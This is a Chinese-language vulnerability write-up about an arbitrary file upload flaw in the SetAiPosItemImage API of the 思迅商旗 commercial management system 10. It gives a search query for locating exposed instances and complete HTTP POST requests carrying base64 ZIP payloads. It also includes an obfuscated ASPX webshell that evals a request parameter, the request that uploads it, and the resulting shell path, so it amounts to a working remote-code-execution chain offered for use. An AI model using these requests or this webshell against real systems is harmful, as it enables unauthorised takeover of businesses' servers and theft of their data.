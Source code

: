 # 思迅商旗商业管理系统10 SetAiPosItemImage存在任意文件上传漏洞

# 一、漏洞简介
思迅商旗商业管理系统是基于互联网部署的全新零售管理系统。提炼各架构优势之大成，打造全新互联网产品。思思迅商旗商业管理系统7 SetAiPosItemImage存在任意文件上传漏洞。

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 思迅商旗商业管理系统10

# 三、资产测绘
+ hunter`app.name=="思迅商旗"`
+ 特征![1705135226264-0d5d4bd8-f3f8-4e10-a2da-14519b7ffa05.png](./img/EYVidbNdF5vXvYpz/1705135226264-0d5d4bd8-f3f8-4e10-a2da-14519b7ffa05-398111.png)

# 四、漏洞复现
```plain
POST /api/POS/SetAiPosItemImage HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Content-Length: 416
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Upgrade-Insecure-Requests: 1
x-forwarded-for: 127.0.0.1

{"Body":{"pos_id":"test","file_data":"UEsDBBQAAAAIAJmoeFdm5m19YgAAAGQAAAATAAAAaW5pdC1jNTIyMjg1MzVhLmNzcwXBQQqEMAwAwLvgH3rcPXRJaV3Qk19JkxQLGsUqKuLfnekn4Yym0CqiBpXNZ8LTHpm3oXM+wHJ+77r6qRzF0rzrZpOTBjhBixJT5Cb9OXhHPgZwBBRvzmUZ8ep0Vnnq6nkBUEsBAj8AFAAAAAgAmah4V2bmbX1iAAAAZAAAABMAJAAAAAAAAAAgAAAAAAAAAGluaXQtYzUyMjI4NTM1YS5jc3MKACAAAAAAAAEAGADoFpjO1h7aAQAAAAAAAAAAAAAAAAAAAABQSwUGAAAAAAEAAQBlAAAAkwAAAAAA","last_time":""}}
```

![1705135268669-5e7dd30a-96c0-45eb-9c07-43b82a233582.png](./img/EYVidbNdF5vXvYpz/1705135268669-5e7dd30a-96c0-45eb-9c07-43b82a233582-331085.png)

上传文件位置

```plain
/AiItemImage/init-c52228535a.css
```

![1705135301442-a37e9e9c-c521-4b9b-b377-5d5f98f30f34.png](./img/EYVidbNdF5vXvYpz/1705135301442-a37e9e9c-c521-4b9b-b377-5d5f98f30f34-187161.png)

漏洞利用

准备webshell`stc.aspx`

```plain
<% function E873yr9k(){var GEPH="unsa",YACK="fe",C910=GEPH+YACK;return C910;}var PAY:String=Request["x"];~eval/*Zf10I0IzZH*/(PAY,E873yr9k());%><%@Page Language=JS%>
```

压缩webshell

[stc.zip](https://www.yuque.com/attachments/yuque/0/2024/zip/1622799/1709222142219-d3f253b2-3b28-4613-acfc-43fc8ef73eba.zip)

将压缩文件转换为base64编码

[Mosaic-crypt-tools-1.5-SNAPSHOT-jar-with-dependencies.jar](https://www.yuque.com/attachments/yuque/0/2024/jar/1622799/1709222142539-f522d0ae-c3bc-443d-95b0-e63662e6b81b.jar)

![1705135429824-9f80641f-7249-46cd-b415-a3874272492c.png](./img/EYVidbNdF5vXvYpz/1705135429824-9f80641f-7249-46cd-b415-a3874272492c-032939.png)

上传webshell

```plain
POST /api/POS/SetAiPosItemImage HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Content-Length: 444
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json
Upgrade-Insecure-Requests: 1
x-forwarded-for: 127.0.0.1

{"Body":{"pos_id":"test","file_data":"UEsDBBQAAAgIABeAKli/64yUkwAAAKQAAAAIABAAc3RjLmFzcHhVWAwAEkeiZa5OnmX1ARQAs1FVSCvNSy7JzM9TcLUwN64ssszW0KwuSyxScHcN8LBVKs0rTlTSiXR09rZVSktV0nG2NDSwBUlpg8Ssi1JLSovyFECi1rUgXQGOkVbBJUWZeem2QamFpanFJdFKFUqx1nWpZYk5+lpRaYYGngaeVVEeWvoaQLU6CEs1rVXtbFQdAhLTUxV8EvPSS4EMW69gVTsAUEsBAhQDFAAACAgAF4AqWL/rjJSTAAAApAAAAAgADAAAAAAAAAAgAKSBAAAAAHN0Yy5hc3B4VVgIABJHomWuTp5lUEsFBgAAAAABAAEAQgAAAMkAAAAAAA==","last_time":""}}
```

![1705135455265-09705950-bc64-49f0-a43c-9771ade4110f.png](./img/EYVidbNdF5vXvYpz/1705135455265-09705950-bc64-49f0-a43c-9771ade4110f-087471.png)

上传文件位置

```plain
/AiItemImage/stc.aspx
```

![1705135492983-2de64683-d6e8-42cb-b251-38c7c38eed5b.png](./img/EYVidbNdF5vXvYpz/1705135492983-2de64683-d6e8-42cb-b251-38c7c38eed5b-212372.png)

[思迅商旗-setaipositemimage-任意文件上传.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222142739-e95ae867-5ce0-482d-8b4e-707627bcdbe4.yaml)



> 更新: 2024-02-29 23:55:42  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fbpfgs6seeig8wdu>